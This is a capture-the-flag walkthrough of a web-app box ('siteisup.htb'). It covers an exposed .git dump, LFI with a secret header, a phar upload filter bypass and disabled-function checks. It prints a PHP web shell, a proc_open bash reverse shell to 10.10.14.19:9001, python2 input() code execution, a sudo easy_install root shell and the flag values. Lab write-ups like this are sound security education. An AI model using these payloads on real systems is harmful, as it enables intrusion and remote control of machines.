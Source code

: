 IP: 10.10.11.177
# Enumeration
## Nmap
```bash
Nmap scan report for 10.10.11.177
Host is up (0.010s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Is my Website up ?
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
## Website
A website that checks if a page is up.
Checking our host to see if it can reach us.

This gives a host name
`siteisup.htb`

## Gobuster
```bash
gobuster -m dir -w /opt/SecLists/Discovery/Web-Content/raft-small-words.txt -x php -o webroot.gobuster -u http://10.10.11.177
```
Found a dev directory which means another gobuster.
`.git` dir

# Code analysis
Git dumper to dump the repo.
```bash
python3 /opt/git-dumper/git_dumper.py http://siteisup.htb/dev/.git/ .
```
Looking at the index.php page there is a lfi for the page parameter which will append .php to any file that is not included in the following regex:
```
/bin|usr|home|var|etc/i
```
There is also a blacklist on `check.php` for what file types are not allowed.
```
/php|php[0-9]|html|py|pl|phtml|zip|rar|gz|gzip|tar/i
```
Looking at the git logs there is a commit that removes `.htpasswd` which also has a `.htaccess` file.

```bash
git checkout 354fe069f6205af09f26c99cfe2457dea3eb6a6c
cat ./.git/.htaccess

SetEnvIfNoCase Special-Dev "only4dev" Required-Header
Order Deny,Allow
Deny from All
Allow from env=Required-Header
```
Which is a header to add in the request for the lfi.
# LFI
There is also mention of a dev vhost (subdomian)
This page (you have to add the header to see it) is a file upload page.

Try the LFI now on the vhost with the header.
```http
GET /?page=php://filter/convert.base64-encode/resource=index HTTP/1.1
Host: dev.siteisup.htb
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/109.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Special-Dev: only4dev
```
The page uploads to the uploads directory.
The server wipes the upload as soon as the check is done. To stop this we can just keep the connection open with nc
```bash
nc -lvnkp 9001

```
Using a payload (file.txt) of:
```php
<?php system($_GET['cmd']); ?>
http://10.10.14.19:9001
```
which works!
## Filter bypassing
Next is to try to get code execution. We can use a php phar wrapper. It's like a zip that the phar filter can go into and run files. The cool thing about this is the only check is the magic byte so if it is called pahr_zip.notmalware it will run :)

Just use zip to turn it into a phar file.
This gives a 500 internal error :(
```http
GET /?page=phar://uploads/31da4fcf76bb3b1c8eaf9c1a23abdf24/test.notmalware/file HTTP/1.1
Host: dev.siteisup.htb
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/109.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Special-Dev: only4dev
```

Check if this happens for a simple echo.

This works.
```http
HTTP/1.1 200 OK
Date: Fri, 27 Jan 2023 13:41:13 GMT
Server: Apache/2.4.41 (Ubuntu)
Vary: Accept-Encoding
Content-Length: 107
Connection: close
Content-Type: text/html; charset=UTF-8

<b>This is only for developers</b>
<br>
<a href="?page=admin">Admin Panel</a>
hellohttp://10.10.14.19:9001
```
## Dealing with a blacklist
So there is RCE, which means there is some sort of black/white list. Lets check php info to find disabled functions.
```
pcntl_alarm,pcntl_fork,pcntl_waitpid,pcntl_wait,pcntl_wifexited,pcntl_wifstopped,pcntl_wifsignaled,pcntl_wifcontinued,pcntl_wexitstatus,pcntl_wtermsig,pcntl_wstopsig,pcntl_signal,pcntl_signal_get_handler,pcntl_signal_dispatch,pcntl_get_last_error,pcntl_strerror,pcntl_sigprocmask,pcntl_sigwaitinfo,pcntl_sigtimedwait,pcntl_exec,pcntl_getpriority,pcntl_setpriority,pcntl_async_signals,pcntl_unshare,error_log,system,exec,shell_exec,popen,passthru,link,symlink,syslog,ld,mail,stream_socket_sendto,dl,stream_socket_client,fsockopen
```
system is included so thats why we have the 500.

There is a dfunc-bypasser script on github which has a list of all the 'dangerous functions'
```
dangerous_functions = ['pcntl_alarm','pcntl_fork','pcntl_waitpid','pcntl_wait','pcntl_wifexited','pcntl_wifstopped','pcntl_wifsignaled','pcntl_wifcontinued','pcntl_wexitstatus','pcntl_wtermsig','pcntl_wstopsig','pcntl_signal','pcntl_signal_get_handler','pcntl_signal_dispatch','pcntl_get_last_error','pcntl_strerror','pcntl_sigprocmask','pcntl_sigwaitinfo','pcntl_sigtimedwait','pcntl_exec','pcntl_getpriority','pcntl_setpriority','pcntl_async_signals','error_log','system','exec','shell_exec','popen','proc_open','passthru','link','symlink','syslog','ld','mail']
```

proc_open (looked manually but here is a python script.)
```python
dangerous_functions = ['pcntl_alarm','pcntl_fork','pcntl_waitpid','pcntl_wait','pcntl_wifexited','pcntl_wifstopped','pcntl_wifsignaled','pcntl_wifcontinued','pcntl_wexitstatus','pcntl_wtermsig','pcntl_wstopsig','pcntl_signal','pcntl_signal_get_handler','pcntl_signal_dispatch','pcntl_get_last_error','pcntl_strerror','pcntl_sigprocmask','pcntl_sigwaitinfo','pcntl_sigtimedwait','pcntl_exec','pcntl_getpriority','pcntl_setpriority','pcntl_async_signals','error_log','system','exec','shell_exec','popen','proc_open','passthru','link','symlink','syslog','ld','mail']

phpinfo = ['pcntl_alarm','pcntl_fork','pcntl_waitpid','pcntl_wait','pcntl_wifexited','pcntl_wifstopped','pcntl_wifsignaled','pcntl_wifcontinued','pcntl_wexitstatus','pcntl_wtermsig','pcntl_wstopsig','pcntl_signal','pcntl_signal_get_handler','pcntl_signal_dispatch','pcntl_get_last_error','pcntl_strerror','pcntl_sigprocmask','pcntl_sigwaitinfo','pcntl_sigtimedwait','pcntl_exec','pcntl_getpriority','pcntl_setpriority','pcntl_async_signals','pcntl_unshare','error_log','system','exec','shell_exec','popen','passthru','link','symlink','syslog','ld','mail','stream_socket_sendto','dl','stream_socket_client','fsockopen']

print(*[x for x in dangerous_functions if x not in phpinfo]) # lol x in a not b (the venn diagram stuff from way to long ago)
```
seems to not be in the phpinfo file.
## Payload
Create a rev shell.
```php
<?php
$cmd = "bash -c 'bash -i >& /dev/tcp/10.10.14.19/9001 0>&1'";
$pipe = array(
	0 => array("pipe","r"),
	1 => array("pipe","w"),
	2 => array("pipe","w")
);
$proc = proc_open($cmd, $pipe, $pipes);
?>
```
Ta da foothold!
# Priv esc
## Part 1
There is a python2 file `/home/developer/dev/siteisup_test.py` which uses input. This can lead to code exec (cause python2 is dumb).
```python
__import__('os').system("bash")
```
YAY! (I **LOVE** python priv esc paths)

Still cant cat the user flag. Just going to take the ssh key instead.

Now finally user.txt
```
2b720ab6b7c66788c3a9e42a3af7a14c
```
## Part 2
`sudo -l` says easy_install and gtfobins says
```
TF=$(mktemp -d)
echo "import os; os.execl('/bin/sh', 'sh', '-c', 'sh <$(tty) >$(tty) 2>$(tty)')" > $TF/setup.py
sudo easy_install $TF
```
root.txt
```
1f254877e04615bf2c9d76322a3f6491
```